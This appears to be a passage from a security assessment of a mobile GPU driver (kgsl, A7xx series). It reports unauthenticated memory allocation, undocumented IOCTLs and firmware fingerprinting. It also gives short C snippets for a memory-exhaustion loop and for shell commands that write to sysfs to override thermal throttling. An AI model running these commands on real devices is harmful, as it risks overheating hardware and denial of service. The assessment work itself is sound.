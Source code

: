 ### 3. **Massive Memory Allocation Capability (HIGH)**
**Risk Level**: 🟡 HIGH  
**Finding**: GPU memory allocation permits up to 1GB+ allocations without authentication.

**Technical Details**:
- Maximum tested allocation: 1000 × 1MB buffers (1GB total)
- No privilege escalation required
- Potential for memory exhaustion attacks

### 4. **Hidden IOCTL Interface Discovery (MEDIUM)**
**Risk Level**: 🟠 MEDIUM  
**Finding**: Multiple undocumented IOCTL interfaces respond to requests.

**Discovered IOCTLs**:
```c
IOCTL 0x38: Response=0, errno=Success
IOCTL 0x39: Response=0, errno=Success  
IOCTL 0x3a: Response=0, errno=Success
IOCTL 0x40: Response=0, errno=Success
```

### 5. **Firmware Information Disclosure (MEDIUM)**
**Risk Level**: 🟠 MEDIUM  
**Finding**: GPU firmware fingerprinting and partial extraction possible.

**Extracted Information**:
```
Firmware Fingerprint:
  Chip ID: 0x07030001
  Device ID: 0x00000001
  GPU ID: 0x00000000
  MMU Enabled: Yes
  Architecture: A7xx series
  Unique Fingerprint: 0x07030000
```

---

## 🎯 SUCCESSFUL ATTACK VECTORS

### Memory Exhaustion Attack
```c
// Demonstrated capability to exhaust GPU memory
for (int i = 0; i < 1000; i++) {
    allocate_gpu_buffer(1048576);  // 1MB each
}
// Result: 1GB+ allocation successful
```

### Thermal Management Override
```c
// Bypass thermal throttling
system("echo 0 > /sys/class/kgsl/kgsl-3d0/thermal_pwrlevel");
system("echo 1 > /sys/class/kgsl/kgsl-3d0/force_clk_on");
// Result: Manual frequency control achieved
```
